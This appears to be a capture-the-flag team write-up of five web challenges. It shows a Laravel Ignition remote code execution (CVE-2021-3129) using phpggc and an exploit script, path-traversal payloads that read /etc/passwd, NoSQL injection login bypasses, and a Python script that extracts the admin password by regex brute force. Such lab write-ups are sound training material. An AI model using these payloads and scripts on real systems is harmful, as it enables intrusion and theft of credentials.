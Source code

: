 # Web

## Inspector gadget

> Solved by: Bobby sox and ava

* Visiting the webpage we see a part of a flag: CHTB{

* If we keep looking around the pages, we find in /static/js/main another part of the flag:

```
us3full_1nf0rm4tion}
```

* This in combination with the flag on the website is not the correct flag so far.
* static/css/main.css has another potential hint at the top with: c4n_r3ve4l_ 
* so, so far we have collected 3 pieces of a flag:

```
1. CHTB{
2. us3full_1nf0rm4tion}
3. c4n_r3ve4l_ 
```

* in js.main we will also find the last piece of our flag:1nsp3ction_
* the full flag ended up being :`CHTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}`

## Cass

> Solved by : thewhiteh4t

* Input sanitization is only in front end via javascript
* we can use burpsuite to bypass that

![](https://i.imgur.com/BSK49kM.png)

---

## DAAS

> Solved by: Nigamelastic

* The hint for this challenge talks about being stuck in debug.
* Some research shows there is a CVE for this, and the Laravel version were working with is vulnerable.
* https://www.exploit-db.com/exploits/49424
* https://www.youtube.com/watch?v=gr8ZKQpYiug&

**CVE-2021-3129** : https://nvd.nist.gov/vuln/detail/CVE-2021-3129

* Find 

```
ip/_ignition/execute-solution
```

* For a laravel panel with error messages and stack trace. 

![](https://i.imgur.com/bwswVCZ.jpg)

* https://www.ambionics.io/blog/laravel-debug-rce
* As mentioned in the blog above i tried performing a post request but it gave me a 302 response
* but the above link mentions their github page and exploit which is
`https://github.com/ambionics/phpggc`
and 
`https://github.com/ambionics/laravel-exploits`

the idea is to get the phar file with ur custom command from 1st repo and then put the phar file into the exploit with specified url to run the exploit
**PS: for a linux command with spaces simply use** `"` 

* so for our case since we know the flag was found on the root directory and its name as 

```
flagM1AhS
```

* our phpggc command should be

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat /flagM1AhS"
```

* run that in the exploit as:

```bash
./laravel-ignition-rce.py http://165.227.234.7:31636/ /tmp/exploit.phar
```

* and we have the flag:

```
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
```

---

## MiniSTRyplace

> Solved by: Bobbysox and thewhiteh4t

* hint1: “Let's read this website in the language of Alines. Or maybe not?
This challenge will raise 33 euros for a good cause.”
* hint2: The challenges name is “miniSTRyplace”. This is a play on words for str_replace.
* We see right away that we can change language and it is represented:
`ip.address/?lang=es.php` a perfect place to try LFI

* In order to prevent path traversal, developers can implement blacklisting. It will usually look something like this:

```
$language = str_replace('../', '', $_GET['language']);
```

* This is where you can see the name of the challenge was a hint to the sec measures used.
*now we can modify our final payload to bypass blacklisting:

```
http://46.101.77.180:32490/?lang=....//....//....//....//....//....//....//....//etc/passwd
```

* Our exploit is successful, to get the flag we just used the following :

```
http://165.227.234.7:30779/?lang=....//....//flag
```

---

## Wild Goose Hunt

> Solved by : thewhiteh4t

* We have a cool login page and source of the web app for this one
* entrypoint.sh contains the following :

```bash
    #!/bin/ash
    
    # Secure entrypoint
    chmod 600 /entrypoint.sh
    mkdir /tmp/mongodb
    mongod --noauth --dbpath /tmp/mongodb/ &
    sleep 2
    mongo heros --eval "db.createCollection('users')"
    mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
    /usr/bin/supervisord -c /etc/supervisord.conf
```

* we can see that the flag is being stored as the password of admin
* we need to somehow extract the password
* since its mongoDB first assumption was to check for NoSQL injection
* Here is the error message we get in burp for a normal attempt

![](https://i.imgur.com/P2my3g3.png)

* Lets switch to repeater here

![](https://i.imgur.com/miWWAps.png)

* so we are getting a json response and the message is being displayed in the frontend
* next i tried some basic payloads for NoSQL injection

```
username[$ne]=lol&password[$ne]=lol
```

![](https://i.imgur.com/H6Da6q7.png)

* Authentication bypassed! but we dont get any functionality in the frontend so i proceeded with more payloads

```
username=admin&password[$regex]=A*
```

![](https://i.imgur.com/NCoQigL.png)

* This is an interesting payload because we can use a wildcard to check if a particular character is present in the password or not! 
* we know that the flag is the password and flag begins with `CHTB{` so I tried that next

```
username=admin&password[$regex]=CHTB{.*
```

![](https://i.imgur.com/6ya2cBg.png)

* And it works again!
* Now we can bruteforce characters and check for success message to get correct characters
* I created a small python script for it

```python
    #!/usr/bin/env python3
    #################################
    ## Author    : thewhiteh4t ######
    ## Challenge : Wild Goose Hunt ##
    #################################
    import json
    import requests
    ip = '138.68.187.25'
    port = 31370
    url = f'http://{ip}:{port}/api/login'
    flag = 'CHTB{'
    charset = '_01234abcdefghijklmnopqrstuvwxyz'
    loop_iter = 1
    while flag.endswith('}') == False:
        for char in charset:
            if loop_iter == 1:
                payload = flag + char + '.*'
            else:
                payload = flag + '}'
            data = {
                'username': 'admin',
                'password[$regex]': payload
            }
            try:
                rqst = requests.post(url, data=data)
            except Exception as e:
                print(f'[-] Exception : {e}')
                exit()
            if rqst.status_code == 200:
                resp = rqst.text
                json_resp = json.loads(resp)
                status = json_resp['logged']
                if status == 1:
                    if payload.endswith('}') == False:
                        flag = payload.replace('.*', '')
                    else:
                        flag = payload
                        print(f'FLAG : {flag}')
                        exit()
                    print(f'FLAG : {flag}')
                    loop_iter = 0
                    break
            else:
                print(f'[-] Error : {rqst.status_code}')
        loop_iter += 1
```

![](https://i.imgur.com/6L20wKy.png)
